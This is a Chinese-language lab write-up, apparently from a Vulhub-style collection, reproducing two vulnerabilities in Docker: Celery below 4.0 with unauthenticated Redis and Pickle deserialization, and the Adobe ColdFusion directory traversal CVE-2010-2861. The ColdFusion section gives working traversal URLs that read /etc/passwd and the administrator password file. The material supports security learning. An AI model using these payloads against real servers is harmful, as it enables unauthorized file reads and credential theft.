







Celery <4.0 Redis未授权访问+Pickle反序列化利用
简介
介绍
Celery 是一个简单、灵活且可靠的分布式系统，用于处理大量消息，同时为操作提供维护此类系统所需的工具。它是一个专注于实时处理的任务队列，同时也支持任务调度。
影响版本
Celery 4.0以下版本。
漏洞成因
在Celery < 4.0版本默认使用Pickle进行任务消息的序列化传递，当所用队列服务（比如Redis、RabbitMQ、RocketMQ等等等）存在未授权访问问题时，可利用Pickle反序列化漏洞执行任意代码。
漏洞环境
执行如下命令启动Celery 3.1.23 + Redis：
1 | docker compose up -d |

漏洞复现
漏洞利用脚本exploit.py仅支持在python3下使用
1 | pip install redis |
查看结果：
1 | docker compose logs celery |
可以看到如下

1 | docker compose exec celery ls -l /tmp |
可以看到成功创建了文件celery_success

Adobe ColdFusion 文件读取漏洞（CVE-2010-2861）
简介
介绍
Adobe ColdFusion是美国Adobe公司的一款动态Web服务器产品，其运行的CFML（ColdFusion Markup Language）是针对Web应用的一种程序设计语言。
影响版本
Adobe ColdFusion 8、9版本
漏洞成因
Adobe ColdFusion 8、9版本中存在一处目录穿越漏洞，可导致未授权的用户读取服务器任意文件。
漏洞环境
执行如下命令启动Adobe CouldFusion 8.0.1版本服务器：
1 | docker compose up -d |

环境启动可能需要1~5分钟，启动后，访问http://your-ip:8500/CFIDE/administrator/enter.cfm，可以看到初始化页面，输入密码admin，开始初始化整个环境。

漏洞复现
直接访问http://your-ip:8500/CFIDE/administrator/enter.cfm?locale=../../../../../../../../../../etc/passwd%00en，删除其中的cookie信息后，即可读取文件/etc/passwd

读取后台管理员密码http://your-ip:8500/CFIDE/administrator/enter.cfm?locale=../../../../../../../lib/password.properties%00en
